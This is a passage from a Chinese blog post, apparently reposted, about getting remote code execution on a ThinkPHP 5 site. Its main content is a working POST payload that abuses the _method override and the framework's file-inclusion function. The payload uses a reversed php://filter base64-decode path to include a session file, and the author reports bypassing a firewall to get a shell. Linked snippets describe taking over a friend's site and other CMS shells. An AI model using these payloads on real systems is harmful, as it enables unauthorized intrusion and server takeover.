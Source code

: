 (`payload`前后两个`ab`同样是为了`base64`解码凑字符的原因)

2，文件包含

```


1.  `POST /?s=captcha&r=cGhwaW5mbygpOw==`

3.  `_method=__construct&filter[]=strrev&filter[]=think\__include_file&method=get&server[]=1&get[]=tsetkk_sses/pmt/=ecruoser/edoced-46esab.trevnoc=daer/retlif//:php`


```

![](%E8%AE%B0%E4%B8%80%E6%AC%A1%E6%9C%89%E8%B6%A3%E7%9A%84thinkphp%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C.assets/L3Byb3h5L2h0dHBzL3h6ZmlsZS5hbGl5dW5jcy5jb20vbWVkaWEvdXBsb2FkL3BpY3R1cmUvMjAxOTA4MjYwOTAwMTAtZGFiM2I4YjQtYzc5Yy0xLnBuZw==.jpg)

最终成功绕过防火墙`getshell`。

0x03 总结
-------

总的来说挺有趣的，搞了很久，最终成功`getshell`也是非常的爽。（好在没放弃：）  
不妥之处，烦请指出~

(adsbygoogle = window.adsbygoogle || \[\]).push({});

[记一次有趣的thinkphp代码执行的更多相关文章](/R/KE5Q8kQPJL/)
-------------------------------------------

1.  [记一次有趣的tp5代码执行](https://www.shuzhiduo.com/A/o75NEg6PJW/)
    
    0x00 前言 朋友之前给了个站,拿了很久终于拿下,简单记录一下. 0x01 基础信息 漏洞点:tp 5 method 代码执行,payload如下 POST /?s=captcha \_method= ...
    
2.  [thinkphp 代码执行](https://www.shuzhiduo.com/A/D8542qwQzE/)
    
    相关漏洞:http://loudong.360.cn/vul/info/id/2919 ThinkPHP 开启lite模式后,会加载ThinkPHP/Extend/Mode/Lite/Dispache ...
    
3.  [记一次海洋cms任意代码执行漏洞拿shell(url一句话)](https://www.shuzhiduo.com/A/KE5Q8x3ZJL/)
    
    实验环境:海洋CMS6.54(后续版本已该洞已补) 1.后台登录尝试 这个站点是个测试站,站里没什么数据. 进入admin.php,是带验证码的后台登录系统,没有验证码的可以用bp爆破.有验证码的也有 ...
    